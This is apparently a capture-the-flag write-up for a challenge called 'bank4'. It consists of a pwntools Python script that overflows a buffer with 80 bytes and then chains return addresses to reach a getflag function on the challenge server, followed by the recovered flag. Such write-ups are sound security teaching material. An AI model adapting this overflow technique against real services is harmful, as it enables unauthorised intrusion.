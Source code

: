 ## bank4

#### Solved by nhanlun

```
nc 61.28.237.24 30205

author: xikhud
```

```py
from pwn import *

up1 = 0x080488a5
up2 = 0x080488db
register = 0x0804895b
getflag = 0x08048906

conn = remote("61.28.237.24", 30205)
conn.sendlineafter("name:", b'A' * 80 + p32(up2) + p32(register) + p32(1) + p32(1) + p32(0x12345678))
conn.sendlineafter("name:", b'A' * 80 + p32(up1) + p32(getflag) + p32(4919) + p32(57005))
conn.interactive()
```

**Flag:** `HCMUS-CTF{trungdeptrai}`
